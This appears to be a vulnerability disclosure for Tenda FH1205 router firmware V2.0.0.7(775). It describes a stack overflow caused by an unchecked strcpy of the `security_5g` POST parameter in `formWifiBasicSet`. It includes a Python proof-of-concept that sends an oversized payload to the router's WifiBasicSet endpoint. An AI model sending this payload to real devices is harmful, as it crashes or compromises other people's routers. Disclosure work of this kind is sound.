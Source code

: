 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `src` variable receives the `security_5g` parameter from a POST request and is later assigned to the `v34` variable, which is fixed at 256 bytes. However, since the user can control the input of `security_5g`, the statement `strcpy(v34, src);` can cause a buffer overflow. The user-provided `security_5g` can exceed the capacity of the `v34` array, triggering this security vulnerability.

![image-20240319221819491](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221819491.png)

![image-20240319221740628](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221740628.png)

![image-20240319221807478](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221807478.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':payload, 
    'hideSsid':'1', 
    'ssid':'1',
    'security':'1', 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)